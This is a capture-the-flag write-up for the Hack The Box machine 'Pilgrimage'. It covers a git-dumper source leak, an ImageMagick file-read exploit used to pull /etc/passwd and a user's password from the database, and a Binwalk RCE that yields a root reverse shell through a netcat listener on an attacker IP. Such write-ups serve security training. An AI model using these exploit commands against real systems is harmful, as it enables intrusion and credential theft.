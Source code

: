 # Pilgrimage
Linux . Easy

## Enumeration

### Initial Nmap Scan
Our first step in probing the web application was an initial Nmap scan using the following command:

```
nmap -sCV -p- {machine IP}
```

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cd104de-7e65-4a71-be92-adf4ce9070a3)

This comprehensive scan returned a domain name for our target IP, which was subsequently added to the /etc/hosts file to enhance readability in further exploration.

### Exploring the Web Application

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d73cbfb6-51d4-4833-9479-c12ae02791cd)

Following the initial scan, we began investigating the web application's features. This exploration revealed:

- A registration page, which automatically logs in new users
- A manual login page
- A home page featuring an image shrinking tool which allows users to upload images, subsequently displaying the resized image.

Once logged in, we were directed to a 'Dashboard' page. This interface displayed the original image file name and a link to the shrunken image, which had been assigned a new name by the application.

### Detailed Nmap Scan

To gain further insight into the underlying infrastructure, a second, more comprehensive Nmap scan was conducted. This scan revealed a hidden .git directory, which offered a potential opportunity for further investigation.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/b011b319-f938-49ca-80cf-a12745a792ee)

### Extracting Hidden Git Directory

In order to extract the contents of the hidden .git directory, we employed the git-dumper tool. This allowed us to gain access to the web application's source code, providing valuable information about the application's structure and functionality.

The source code comprised several different files for login, logout, register, and dashboard functionality, as well as an ELF 64-bit LSB executable called 'magick'. This command-line program is used to resize the images uploaded by users.

[git-dumper](https://github.com/arthaud/git-dumper)

![image](https://github.com/vsang181/Hackthebox/assets/28651683/4a63b9d3-ba32-49bd-8a7a-d962fe9e8a5d)

### Source Code Analysis

Detailed scrutiny of the index.php file revealed a PHP script that facilitates image uploads, resizing, and storage. The script initializes a session, imports a package named "bulletproof" to handle image uploads, checks user authentication, processes image uploads, and renders HTML for the webpage.

We also discovered a SQLite database path mentioned within the dashboard.php file.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/088a4f37-3dfd-496f-99a6-4bfed8d7b1a5)

### Investigating ImageMagick

In order to learn more about the potential vulnerabilities of the 'magick' tool, we downloaded it to our local system and checked the version.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/6b293647-bf5d-4a7d-9fcf-b36fff6fb32e)

Following a quick Google search, we discovered an Arbitrary File Read vulnerability in this version of ImageMagick. The provided Proof-of-Concept (POC) indicated that this vulnerability could be exploited for further investigations.

[ImageMagick 7.1.0-49 - Arbitrary File Read](https://www.exploit-db.com/exploits/51261)

[ imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc)

## Exploitation

Taking advantage of the vulnerability we discovered, we first generated a blank .png file designed to read the "/etc/passwd" file. This was achieved using the following command:

```
python3 generate.py -f "/etc/passwd" -o exploit.png
```

This malicious .png file was then uploaded to the web application and the shrunken image resulting from the server's processing was saved locally for further analysis.

To extract the hexadecimal content embedded in the manipulated image, we utilized the command-line tool 'identify' with the following command:

```
identify -verbose {filename.png}
```
This yielded the target hexadecimal code.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/c3f759a8-d888-440f-b2d0-c93afa4730de)

The hexadecimal code was then converted into a string format using the following Python command:

```
python3 -c 'print(bytes.fromhex("{Hex Code}").decode("utf-8"))'
```

The decoded string revealed the presence of a user named Emily in the system.

Leveraging the Local File Inclusion vulnerability we had previously established, we proceeded to download the database.

The target file was changed from "/etc/passwd" to "/var/db/pilgrimage" within the original exploit command.

This action resulted in a large data dump, which was subsequently analyzed using an online tool for convenience.

[CyberChef](https://gchq.github.io/CyberChef/)

The analysis of this data revealed Emily's password.

![Screenshot_2023-07-26_21-34-34](https://github.com/vsang181/Hackthebox/assets/28651683/55500606-123e-475b-b6af-70819061ca42)

We then attempted an SSH login using Emily's credentials. The login attempt proved successful.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/5bfd9db7-82e7-4268-bc88-2e88589d5805)

Finally, this successful login revealed the desired user flag, marking the completion of our exploration and exploitation journey.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/2cea703a-9865-4802-a843-d70ba17d636d)

## Privilege Escalation

An initial attempt to run 'sudo -l' to list Emily's sudo privileges was unsuccessful.

By running the linpeas.sh script, we discovered a process located at /usr/sbin/malwarescan.sh. As user Emily, we have read permissions for this process.

The content of the script revealed the following details:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d0188909-07c1-4fc7-9dc9-6e6cd3c3d177)

The bash script was designed to monitor a specific directory (/var/www/pilgrimage.htb/shrunk/) for the creation of new files, employing the 'inotifywait' command for this purpose.

The script has a blacklist, an array of string patterns ("`Executable script`" and "`Microsoft executable`"). If the output of the `binwalk` command (stored in the `binout` variable) contains any of the blacklisted string patterns, the script removes the file.

A check on the 'binwalk' version revealed it to be Binwalk v2.3.2.

A quick Google search for known exploits against this version of binwalk unveiled a Remote Command Execution (RCE) vulnerability.

[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

With this identified vulnerability, we had the potential to remotely execute code as root within the system.

The exploit code was saved into a file, named, for instance, 'exploit.py'.

The exploit was launched using the following command:

```
python3 exploit.py /path/to/input.png your.ip.address.here 4444
```

This operation created a png file ready to be uploaded and subsequently executed by 'binwalk', as identified earlier in the 'malwarescan.sh' script.

Concurrently, we started listening on the specified port via 'netcat'.

An HTTP server was then started, and while still in SSH, the 'wget' command was used to retrieve the file into the specified folder.

## Let's Connect

I welcome your insights, feedback, and opportunities for collaboration. Together, we can make the digital world safer, one challenge at a time.

- **LinkedIn**: (https://www.linkedin.com/in/aashwadhaama/)

I look forward to connecting with fellow cybersecurity enthusiasts and professionals to share knowledge and work together towards a more secure digital environment.

This process ultimately resulted in gaining a root shell, enabling access to the coveted root flag.
